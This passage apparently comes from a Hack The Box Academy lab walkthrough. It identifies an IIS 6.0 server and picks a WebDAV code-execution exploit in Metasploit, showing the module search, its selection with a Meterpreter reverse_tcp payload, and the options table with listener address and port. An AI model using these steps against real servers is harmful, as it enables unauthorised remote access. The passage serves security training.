 Next, we look up some information about the services running on this box. Specifically, we want to explore port 80 and what kind of web service is hosted there.

   

![Under Construction page with instructions for accessing IIS Help, including steps to run inetmgr and find Help Topics in Internet Information Services.](https://academy.hackthebox.com/storage/modules/39/S12_SS01.png)

We notice it is an under-construction website—nothing web-related to see here. However, looking at both the end of the webpage and the result of the Nmap scan more closely, we notice that the server is running `Microsoft IIS httpd 6.0`. So we further our research in that direction, searching for common vulnerabilities for this version of IIS. After some searching, we find the following marker for a widespread vulnerability: `CVE-2017-7269`. It also has a Metasploit module developed for it.

#### MSF - Searching for Exploit

```shell-session
msf6 > search iis_webdav_upload_asp

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/windows/iis/iis_webdav_upload_asp  2004-12-31       excellent  No     Microsoft IIS WebDAV Write Access Code Execution


msf6 > use 0

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp


msf6 exploit(windows/iis/iis_webdav_upload_asp) > show options

Module options (exploit/windows/iis/iis_webdav_upload_asp):

   Name          Current Setting        Required  Description
   ----          ---------------        --------  -----------
   HttpPassword                         no        The HTTP password to specify for authentication
   HttpUsername                         no        The HTTP username to specify for authentication
   METHOD        move                   yes       Move or copy the file on the remote system from .txt -> .asp (Accepted: move, copy)
   PATH          /metasploit%RAND%.asp  yes       The path to attempt to upload
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                     yes       The target port (TCP)
   SSL           false                  no        Negotiate SSL/TLS for outgoing connections
   VHOST                                no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.239.181   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```